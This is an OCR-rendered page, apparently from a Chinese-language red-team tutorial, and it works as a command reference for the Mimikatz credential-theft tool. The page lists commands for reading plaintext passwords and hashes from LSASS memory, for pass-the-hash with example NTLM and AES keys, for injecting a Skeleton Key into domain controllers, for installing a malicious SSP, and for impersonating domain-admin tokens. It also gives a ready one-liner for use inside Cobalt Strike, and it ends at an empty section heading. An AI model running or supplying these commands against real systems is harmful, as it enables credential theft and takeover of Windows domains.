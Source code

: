 ```
MISC::AddSid – 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个或 SID
）。
MISC::MemSSP – 注入恶意的 Wndows SSP 来记录本地身份验证凭据。
MISC::Skeleton – 在 DC 中注入万能钥匙（Skeleton Key） 到 LSASS 进程中。这使得所有用户所。
使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。
PRIVILEGE::Debug – 获得 Debug 权限（很多 Mimikatz 命令需要 Debug 权限或本地 SYSTEM 权限）。
SEKURLSA::Ekeys – 列出 Kerberos 密钥
SEKURLSA::Kerberos – 列出所有已通过认证的用户的 Kerberos 凭证（包括服务帐户和计算机帐户）。
SEKURLSA::Krbtgt – 获取域中 Kerberos 服务帐户（KRBTGT）的密码数据。
SEKURLSA::LogonPasswords – 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的
计算机的凭证。
SEKURLSA::Pth – Hash 传递 和 Key 传递（注：Over‐Pass‐the‐Hash 的实际过程就是传递了相关的 Key(s)）。

SEKURLSA::Tickets – 列出最近所有已经过身份验证的用户的可用的 Kerberos 票证，包括使用用户帐户的上下文运
行的服务和本地计算机
在AD 中的计算机帐户。与 kerberos::list 不同的是 sekurlsa 使用内存读取的方式，它不会受到密钥导出的限制。

TOKEN::List – 列出系统中的所有令牌。
TOKEN::Elevate – 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。

TOKEN::Elevate /domainadmin – 假冒一个拥有域管理员凭证的令牌。
```

接下来看几个常用的模块

### sekurlsa模块

```
privilege模块
privilege::debug 提升为debug权限
sekurlsa：模块，从lsass进程中提取passwords、keys、pin、tickets等信息
sekurlsa::msv 获取HASH (LM,NTLM)
sekurlsa::wdigest 通过可逆的方式去内存中读取明文密码
sekurlsa::Kerberos 假如域管理员正好在登陆了我们的电脑，我们可以通过这个命令来获取域管理员的明文密码
sekurlsa::tspkg 通过tspkg读取明文密码
sekurlsa::livessp 通过livessp 读取明文密码
sekurlsa::ssp 通过ssp 读取明文密码
sekurlsa::logonPasswords 通过以上各种方法读取明文密码

sekurlsa::process 将自己的进程切换到lsass进程中，之前只是注入读取信息
sekurlsa::minidump file 这个模块可以读取已经打包的内存信息
sekurlsa::pth 哈希传递
sekurlsa::pth /user:administrator/domain:host1 /ntlm:cdf34cda4e455232323xxxx
sekurlsa::pth /user:administrator/domain:host1 /aes256:cdf34cda4e455232323xxxx
```

```
在cs上简单的使用:
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```



### process模块
